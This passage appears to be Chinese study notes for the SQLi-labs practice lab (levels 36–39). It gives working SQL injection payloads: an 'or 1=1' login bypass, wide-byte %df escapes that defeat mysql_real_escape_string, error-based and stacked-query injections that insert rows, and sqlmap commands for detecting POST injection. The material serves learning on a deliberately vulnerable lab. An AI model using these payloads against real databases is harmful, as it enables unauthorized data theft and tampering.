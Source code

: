 ```select name,pass from tbAdmin where name='admin' or 1=1#' and pass='123456' ```
![](Less-36.jpg)

	payload:  ?id=-1�' union select 1,user(),3 --+

![](Less-36-2.jpg)


mysql_real_escape_string() 函数转义 SQL 语句中使用的字符串中的特殊字符。

下列字符受影响：

    \x00
    \n
    \r
    \
    '
    "
    \x1a

##### 37关
	
	�' union select count(*), concat((select database()), floor(rand()*2))as a from information_schema.tables group by a#

##### 38关 stacked Query 堆叠查询

	-1%df%27union select 1,@@version,3--+

![](Less-38.jpg)


	-1%df'union select 1,@@version,3;insert into users values(114,'1111','123') --+

![](Less-38-2.jpg)

数据库变化：

![](Less-38-3.jpg)


后台代码：

	/* execute multi query */
	mysqli_multi_query($con1, $sql)

##### 39关 stacked Query 堆叠查询

	-1 union select 1,@@version,3;insert into users values(115,'1111','123') --+


## sqlmap 一些语法
	
### post注入检测
	
	自动检测forms：
	
	sqlmap -u "http://ip/sqli-labs-master/Less-11/" --forms
	
	指定参数检测：
	
	sqlmap -u "http://ip/sqli-labs-master/Less-11/"  --data "uname=1&passwd=1"
	
	检测 uname 参数是否存在注入：
```